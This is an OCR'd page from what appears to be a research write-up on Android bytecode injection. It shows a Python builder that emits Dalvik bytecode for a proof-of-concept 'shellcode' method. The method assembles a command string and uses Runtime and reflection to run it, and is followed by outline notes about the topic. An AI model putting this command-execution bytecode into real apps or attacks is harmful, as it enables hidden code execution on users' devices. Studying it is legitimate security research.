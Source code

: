 ```python
            'Object': object_index,
        })

# [Index = 0x5, Offset = 0x31c, Num Regs = 0xa]: private static void com/poc/shellcode/MainActivity::shellcode()
    return (builder
# 0000: 13 00 12 00       CONST_16 v0, #+18
        .const_16(v0, len(command))
# 0004: 23 00 13 00       NEW_ARRAY v0, v0, TYPE:[C
        .new_array(v0, v0, 'char[]')
# 0008: 26 00 3e 00 00 00 FILL_ARRAY_DATA v0, +62
        .fill_array_data(v0, 65)
# 000e: 22 01 0d 00       NEW_INSTANCE v1, TYPE:Ljava/lang/StringBuilder;
        .new_instance(v1, 'StringBuilder')
# 0012: 70 10 0b 00 01 00 INVOKE_DIRECT {v1}, METHOD:Ljava/lang/StringBuilder;-><init>()V
        .invoke_direct(1, stringbuilder_constructor_index, [v1])
# 0018: 6e 20 0c 00 01 00 INVOKE_VIRTUAL {v1, v0}, METHOD:Ljava/lang/StringBuilder;->append([C)Ljava/lang/StringBuilder;
        .invoke_virtual(2, stringbuilder_append_chararray_index, [v1, v0])
# 001e: 12 42             CONST_4 v2, #+4
        .const_16(v2, 4)
# 0020: 23 22 13 00       NEW_ARRAY v2, v2, TYPE:[C
        .new_array(v2, v2, 'char[]')
# 0024: 26 02 46 00 00 00 FILL_ARRAY_DATA v2, +70
        .fill_array_data(v2, 65)
# 002a: 22 03 0d 00       NEW_INSTANCE v3, TYPE:Ljava/lang/StringBuilder;
        .new_instance(v3, 'StringBuilder')
# 002e: 70 10 0b 00 03 00 INVOKE_DIRECT {v3}, METHOD:Ljava/lang/StringBuilder;-><init>()V
        .invoke_direct(1, stringbuilder_constructor_index, [v3])
# 0034: 6e 20 0c 00 23 00 INVOKE_VIRTUAL {v3, v2}, METHOD:Ljava/lang/StringBuilder;->append([C)Ljava/lang/StringBuilder;
        .invoke_virtual(2, stringbuilder_append_chararray_index, [v3, v2])
# 003a: 71 00 09 00 00 00 INVOKE_STATIC {}, METHOD:Ljava/lang/Runtime;->getRuntime()Ljava/lang/Runtime;
        .invoke_static(0, getruntime_index, [])
# 0040: 0c 04             MOVE_RESULT_OBJECT v4
        .move_result_object(v4)
# 0042: 6e 10 08 00 04 00 INVOKE_VIRTUAL {v4}, METHOD:Ljava/lang/Object;->getClass()Ljava/lang/Class;
        .invoke_virtual(1, object_getclass_index, [v4])
# 0048: 0c 05             MOVE_RESULT_OBJECT v5
        .move_result_object(v5)
# 004a: 6e 10 0d 00 03 00 INVOKE_VIRTUAL {v3}, METHOD:Ljava/lang/StringBuilder;->toString()Ljava/lang/String;
        .invoke_virtual(1, stringbuilder_tostring_index, [v3])
# 0050: 0c 06             MOVE_RESULT_OBJECT v6
        .move_result_object(v6)
# 0052: 12 17             CONST_4 v7, #+1
        .const_16(v7, 1)
# 0054: 23 77 14 00       NEW_ARRAY v7, v7, TYPE:[Ljava/lang/Class;
        .new_array(v7, v7, 'Class[]')
# 0058: 12 08             CONST_4 v8, #+0
        .const_16(v8, 0)
# 005a: 1c 09 0c 00       CONST_CLASS v9, TYPE:Ljava/lang/String;
        .const_class(v9, 'String')
# 005e: 4d 09 07 08       APUT_OBJECT v9, v7, v8
        .aput_object(v9, v7, v8)
# 0062: 6e 30 07 00 65 07 INVOKE_VIRTUAL {v5, v6, v7}, METHOD:Ljava/lang/Class;->getDeclaredMethod(Ljava/lang/String;,[Ljava/lang/Class;)Ljava/lang/reflect/Method;
        .invoke_virtual(3, class_getdeclaredmethod_index, [v5, v6, v7])
# 0068: 0c 05             MOVE_RESULT_OBJECT v5
        .move_result_object(v5)
```

[comment]: <> (Arms race)
[comment]: <> (Parallels to native code)
[comment]: <> (Motivation)
[comment]: <> (Missing distinction between data and code)
[comment]: <> (Bytecode injection is a real, new thing)
[comment]: <> (ASLR?)
[comment]: <> (Gloss over target)
[Offset = 0x0]: classes.dex
[Offset = 0x0]: classes.dex